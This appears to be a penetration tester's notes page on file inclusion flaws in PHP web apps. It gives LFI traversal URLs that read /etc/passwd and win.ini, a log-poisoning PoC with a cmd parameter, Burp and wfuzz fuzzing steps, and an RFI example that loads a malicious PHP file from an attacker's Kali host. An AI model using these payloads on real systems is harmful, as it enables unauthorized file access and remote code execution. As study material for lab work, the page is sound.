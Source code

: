 ```yaml
---
description: A common vulnerability found in PHP web apps
---
```


# File Inclusion Vulnerabilities

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion" %}

## Local File Inclusion (LFI)

* The LFI attack is where an attacker can trick the web app into exposing or running files on the web server
* Attempt dot-dot-slash attack to ensure the attack is possible

Example: http://htb.local/?page=../../../../../../test.txt

### PoC

```
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

### Bruteforcing LFI via directory

* Obtain a GET request in burp
* Send to Intruder
* Attack type set to Sniper

Example on where to place payload:

```
GET /admin/?|PAYLOADHERE|= HTTP/2
```

* Click the add button on the right side and make sure that the payload character is between the field where the two pipes are
* Go to payloads > Load > SecLists > Discovery > Web-Content > raft-small-words.txt
* Click start attack
* Make sure to order by the largest length as that will be what you need to focus on

### Fuzzing

* This section is for if you found something from bruteforcing for LFI

```
GET /admin/?debug=|fasfoaj|
```

* Place the payload characters in between the pipes
  * Remember, the pipes are the payload characters in burp, you need to manually add this
* Go to payloads > SecLists > LFI > LFI-jhaddix.txt
* Select start attack and organize by largest length again

Example of LFI:

```
http://10.10.10.1/admin/?debug=../../../../../windows/win.ini

http://10.10.10.1/admin/?debug=../../../../../etc/passwd
```

Wfuzz:

```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hh <common number> <URL>
```

## Apache Log Poisoning

* If you can include an Apache log file through LFI, you can often inject PHP to the logs and execute that PHP using the LFI
* These logs can be stored in a variety of places
* Do more research on where these places can be

## LFI 2 RCE

{% embed url="https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/" %}

## Remote File Inclusion (RFI)

* Similar to an LFI but a remote file can be included and served to execute server-side code

Example:

http://htb.local/?page=http://\<kali_IP:8000>/maliciou_s\_file.php

<figure><img src="../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>
